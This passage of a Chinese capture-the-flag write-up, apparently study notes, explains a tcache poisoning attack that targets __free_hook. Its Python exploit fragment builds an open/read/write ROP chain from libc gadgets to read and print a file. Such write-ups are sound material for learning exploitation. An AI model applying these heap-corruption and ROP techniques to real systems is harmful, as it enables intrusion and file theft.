 #### 寻找free_hook
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685597411894-851b37d9-b230-46ee-a369-5b04499dc663.png#averageHue=%230b0903&clientId=u5b8e4ff9-0d4c-4&from=paste&height=342&id=u4687bcc2&originHeight=564&originWidth=1254&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=229483&status=done&style=none&taskId=u79ac5549-7a26-412e-ba9b-07e149482cf&title=&width=759.9999560731856)
#### 修改idx=6，即目前第一个tcache的fd和内容--为rop链
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685597498356-e22901af-9bd5-48b6-b455-7f392efe7679.png#averageHue=%23030202&clientId=u5b8e4ff9-0d4c-4&from=paste&height=210&id=u73b74baf&originHeight=347&originWidth=2459&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=178891&status=done&style=none&taskId=uefdeb739-ff2d-42b3-83f5-57554fa1ffc&title=&width=1490.30294416584)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685597637953-e4522246-f889-4a85-902e-c78017545fdb.png#averageHue=%23161412&clientId=u5b8e4ff9-0d4c-4&from=paste&height=701&id=u05b93fc9&originHeight=1156&originWidth=1224&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=269288&status=done&style=none&taskId=uf9b7eb2f-5a4b-4749-b2bc-d44c0e63dc2&title=&width=741.8181389422481)
> **一点迷思迷思迷思迷思！！！：**
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685598731875-97df3eab-da9f-43f1-a8b7-ddee9d276974.png#averageHue=%231f1c1a&clientId=u5b8e4ff9-0d4c-4&from=paste&height=522&id=ud7fda63d&originHeight=861&originWidth=1197&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=181957&status=done&style=none&taskId=u81283d43-af0e-4420-b1fa-abeca651648&title=&width=725.4545035244043)
> **为什么都是用heap_base+ad0**
> **因为，tcache就是一个堆，我们泄露出来的，是堆的分配收地址**
> **这是按内存对齐的！！！**
> **而只要我们加ad0，就能到我们想要去的地方，即第7个chunk**

这里利用了csu的gadget<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685599731765-2144869f-095f-49f4-85e6-c933b11c61ab.png#averageHue=%23070604&clientId=u5b8e4ff9-0d4c-4&from=paste&height=216&id=u42ae13f8&originHeight=357&originWidth=1744&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=74432&status=done&style=none&taskId=u302ab0f5-f1b8-481e-a21f-682a0a00461&title=&width=1056.9696358784972)
```python
edit(6,p64(libc_base+0x1eee48) + flat([
        libc_base+0x0000000000025b9b,
        0,
        heap_base+0xad0, #第7个chunk，idx=6
        pop_rdi_ret,
        heap_base+0xad0,
        pop_rsi_ret,
        0,
        pop_rdx_ret,
        0,
        pop_rax_ret,
        2,
        syscall_ret, # open
        pop_rdi_ret,
        3,
        pop_rsi_ret,
        heap_base+0xad0,
        pop_rdx_ret,
        0x30,
        pop_rax_ret,
        0,
        syscall_ret, # read
        pop_rdi_ret,
        1,
        pop_rax_ret,
        1,
        syscall_ret, # write
]))

```
#### 往分配出来的新chunk，即原先idx=6的chunk进行写
> 通过AIT+T寻找
> 不对，还有其他方法：搜索libc中的gadget（使用ropper）
